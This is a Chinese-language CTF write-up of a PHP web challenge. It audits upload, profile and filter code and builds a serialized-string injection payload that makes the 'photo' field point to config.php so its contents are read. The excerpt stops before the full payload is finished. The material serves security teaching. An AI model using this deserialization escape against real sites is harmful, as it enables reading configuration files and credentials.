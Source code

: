 ```
​	$file = $_FILES['photo'];
​	if($file['size'] < 5 or $file['size'] > 1000000)
​		die('Photo size error'); 
```

一堆正则匹配。主要是检测手机号必须十一位之类的可信性的。

然后规定了图片大小，这个也不太重要。

然后我们发现nickname只要长度大于十就可匹配 说明nickname是我们可利用的变量

然后我们审计一下profile.php

```
<?php
	require_once('class.php');
	if($_SESSION['username'] == null) {
		die('Login First');	
	}
	$username = $_SESSION['username'];
	$profile=$user->show_profile($username);
	if($profile  == null) {
		header('Location: update.php');
	}

else {
	$profile = unserialize($profile);
	$phone = $profile['phone'];
	$email = $profile['email'];
	$nickname = $profile['nickname'];
	$photo = base64_encode(file_get_contents($profile['photo']));

?> 
```

啊哈，有反序列化，有文件包含 我们就很明确了，我们要利用nickname篡改photo 的值为profile.php

也就是说，我们需要一个

```
a:4:{s:5:"phone";s:11:"12345678901";s:5:"email";s:8:"1@qq.com";s:8:"nickname";s:3:"abc";s:5:"photo";s:10:"config.php";} 
```

这样的序列化字符串

ok那我们构造后半部分payload：

```
";}s:5:"photo";s:10:"config.php";} 
```

回去index.php找过滤函数

```
public function filter($string) {
		$escape = array('\'', '\\\\');
		$escape = '/' . implode('|', $escape) . '/';
		$string = preg_replace($escape, '_', $string);

​	$safe = array('select', 'insert', 'update', 'delete', 'where');
​	$safe = '/' . implode('|', $safe) . '/i';
​	return preg_replace($safe, 'hacker', $string);
} 
```

